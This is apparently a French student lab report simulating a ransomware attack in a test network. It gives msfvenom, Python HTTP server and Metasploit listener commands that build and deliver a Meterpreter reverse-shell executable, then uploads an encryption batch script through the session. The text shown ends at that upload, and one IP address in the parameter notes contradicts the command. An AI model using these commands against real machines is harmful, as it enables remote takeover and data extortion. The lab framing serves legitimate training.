





# Lab : Analyse et Simulation d'une Attaque par Ransomware

## 1. Informations Générales & Environnement
* **Environnement de laboratoire :**
  * **Machine Attaquante (Kali Linux) :** Adresse IP `192.168.52.128`
  * **Machine Cible (Windows de test) :** Adresse IP `192.168.52.130`
* **Outils utilisés :** `msfvenom`, `Metasploit Framework` (`multi/handler`), `Python 3` (serveur HTTP), scripts de chiffrement/déchiffrement Batch (`.bat`).

## 2. Objectifs du TP
* Comprendre le cycle d'attaque d'un ransomware (accès initial, exécution du payload, chiffrement des données).
* Mettre en place un mécanisme de rétro-ingénierie/déchiffrement pour restaurer les fichiers.
* Analyser les bonnes pratiques de remédiation et de défense.

## 3. Étapes de Réalisation
### Étape 1 : Génération de la charge utile (Payload)
La première phase consiste à créer un exécutable malveillant d'accès initial à l'aide de l'outil `msfvenom`.

- **Commande sur Kali Linux :**
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.128 LPORT=4444 -f exe -o ransomware.exe
```

<u>**Paramètres clés :**</u>

- -p windows/meterpreter/reverse_tcp : Charge utile Windows avec retour de connexion (Reverse TCP) et console d'administration Meterpreter.

- LHOST=192.168.131.155 : Adresse IP de la machine attaquante (Kali Linux).

- LPORT=4444 : Port réseau d'écoute sur la machine attaquante.

- -f exe : Format du fichier de sortie (exécutable Windows).

- -o ransomware.exe : Nom attribué au fichier généré.


### Étape 2 : Transfert et exécution sur la machine cible via un serveur HTTP local.
Pour transférer le fichier exécutable vers la machine cible, un serveur web temporaire est démarré sur la machine attaquante.

- **Commande sur Kali Linux :**
```sh
python -m http.server 8080
```



### Étape 3 : Établissement de l'écouteur et prise de contrôle

Avant de déclencher le fichier sur la cible, un écouteur est configuré sur l'attaquant pour intercepter la connexion entrante.

- **Commande sur Kali Linux :**
```sh
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.52.128; set LPORT 4444; exploit"
```
Puis :
1. Sur la machine Windows cible (avec la protection antivirus désactivée), ouvrir le navigateur et accéder au serveur web de l'attaquant : `http://192.168.52.128:8080`.
2. Télécharger le fichier `ransomware.exe`.
3. Exécuter le fichier sur la machine Windows pour déclencher la charge utile.
4. Vérifier sur le terminal Kali que la session Meterpreter est ouverte avec succès.



### Étape 4 : Préparation des outils et énumération de la cible

1. **Sur Kali Linux :** copie des scripts batch de simulation vers le répertoire personnel :

```sh
cp *.bat /home/adja
```
2. **Sur la session Meterpreter :** navigation vers le Bureau de la machine victime et énumération des fichiers pour repérer la cible :



Le répertoire **secret** a été identifié avec succès sur le bureau de la victime. Il servira de conteneur cible pour la simulation de l'attaque par chiffrement.

### Étape 5 : Transfert du script de simulation vers la cible

Une fois le dossier cible identifié, nous procédons au téléversement de notre script `HARansom.bat` depuis notre machine d'attaque Kali vers le répertoire `secret` sur la machine Windows compromise.

1. **Se positionner dans le répertoire cible (sur la victime) :**
```text
cd C:\\Users\\adjaa\\Desktop\\secret
```
2. **Téléverser le script depuis Kali :**
```text
upload /home/adja/HARansom.bat
```
 
